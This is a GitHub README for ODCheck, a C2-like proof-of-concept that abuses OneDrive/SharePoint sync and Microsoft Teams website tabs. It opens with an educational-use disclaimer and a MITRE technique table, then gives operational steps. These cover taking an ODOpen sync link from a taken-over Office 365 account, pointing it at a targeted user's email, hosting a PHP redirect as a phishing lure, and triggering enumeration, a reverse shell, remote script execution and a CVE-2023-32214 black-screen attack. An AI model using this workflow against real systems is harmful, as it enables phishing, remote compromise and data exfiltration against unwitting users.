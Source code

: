 # DISCLAIMER:
This tool is to be used for educational purposes only. I do not take responsibility if you use this in any other way. 

It's a proof of concept solution that was created for https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/ 

If you use this for malicious reasons, you will most likely get caught. Don't do it.

# ODCheck

ODCheck is a C2-like proof-of-concept solution designed to evaluate systems against data exfiltration through OneDrive sync traffic. The ODOpen URL can be used for spear phishing in the Microsoft Teams desktop client to establish auto sync connections (with user interaction), which enables the communication channel that ODCheck uses. 

If the connection is successful to an attacker controlled library and the user executes ODCheck, then further commands can be run on the machine based on the file names that are detected in the sync folder. The prebuilt tools and scripts available with ODCheck can help test for the following MITRE techniques:

| MITRE Technique             | ID |
| :---------------- | :------: |
| Exfiltration over C2 Channel        |   [T1041](https://attack.mitre.org/techniques/T1041/)   |
| Masquerading: Right-to-Left Override            |   [T1036.002](https://attack.mitre.org/techniques/T1036/002/)   |
| Modify Registry    |  [T1112](https://attack.mitre.org/techniques/T1112/)   |
| Automated Collection |  [T1119](https://attack.mitre.org/techniques/T1119/)   |
| Denial of Service | [T0814](https://attack.mitre.org/techniques/T0814/)  |
|Command and Scripting Interpreter: PowerShell| [T1059.001](https://attack.mitre.org/techniques/T0814/) |
|Ingress Tool Transfer | [T1105](https://attack.mitre.org/techniques/T1105/) |
|Web Service: Bidirectional Communication| [T1102.002](https://attack.mitre.org/techniques/T1102/002/)
<br/>

 **Setting Up ODCheck**
 
```
# You will need to have the PS2EXE PowerShell module installed 
Install-Module PS2EXE

# Copy the full ODCheck Folder from Github
git clone https://github.com/itssixtyn3in/ODCheck

# Run wizard.ps1 to start the configuration prompts
.\wizard.ps1
```
ODCheck provides a few customization options from here that can be used, depending on what all you want to test.

- When configuring ODCheck, the file names that it watches for will be randomized and copied to the 'Payload' folder. If the files are dropped into the Sharepoint library, then the mapped commands will run once the file syncs. The setup will also require that you know the tenant and document library name that you will be using for the mutual sync connection (dont forget to add the Documents part shown in the video). This information will be required to setup the sync connection to the correct local folder.

- The script will ask you for your preferred PowerShell reverse shell command and external script URL.

- If you want to package the file into an EXE with a custom icon, then just specify the file path for the .ico file. An example .ico file is available in the Icons folder.

![odcheck_usage](https://github.com/itssixtyn3in/ODCheck/assets/130003354/0824c20a-0c39-47d9-889a-2ebab659e127)

 <br/>

 **Establishing A Sync Connection**
 
 The Microsoft Teams client in it's default configuration allows users to add website tabs to private conversations, or Teams channels. The website tab option can be linked to external pages, which can be used as a jumping point to have users sync specific Sharepoint libraries using the ODOpen:// protocol handler. For further details regarding this please see https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/

 If you've taken over an Office 365 account with the permissions to create Sharepoint Sites and write Microsoft Teams messages, then you can retrieve the ODSync link the following way. 
- Create a new sharepoint library and upload a file
- In a browser open up your dev tools > network > click on the 'sync' button on the Sharepoint page to trigger the ODOpen command
- Copy the URL from the network section entry
  
 ![onedrive_link-1024x231](https://github.com/itssixtyn3in/ODCheck/assets/130003354/40d0c5a7-c598-4a7f-adfb-349c533b7724)

 Your link for the sync connection will look similar to what you see below. You will want to change the &userEmail parameter to the email of the user that you're targeting.
 ```
 odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST
```
Upload the ODOpen URL in a PHP file on a webhost that you control. The PHP file content should look like the following:
```
<?php
header("Location: odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST", true, 301);
exit;
?>
```
Add your newly hosted PHP page as a URL for the Microsoft Teams website tab

![website_tab](https://github.com/itssixtyn3in/ODCheck/assets/130003354/6f955b06-cebe-4b4f-89e3-e05ce6b25c7a)

If the user clicks on the website tab, then the sync connection is automatically established, including any files that are currently (or in the future) available.
<br/><br/>
**Running commands**

Once a sync connection has been set up to the Sharepoint Document Library and the ODCheck client has been executed, then commands can be executed by dropping the payload files into the shared sync folder. 

- Enumeration: Runs multiple Windows enumeration commands and returns the output into the sync folder.
- Reverse Shell: Attempts to run your reverse shell command.
- DOS Condition: Attempts to trigger CVE-2023-32214 which causes a blackscreen for the user if ms-cxh-full:// is available. The screen will reappear if the machine is restarted.
- External Scripts: Attempts to run an external PowerShell script for customization purposes.
- Tool Move: Attempts to move the specified file from the OneDrive folder into Downloads (or another specified folder if manually changed in the script)

https://github.com/itssixtyn3in/ODCheck/assets/130003354/36ea337f-ed2c-427e-9d4e-9628c812404f

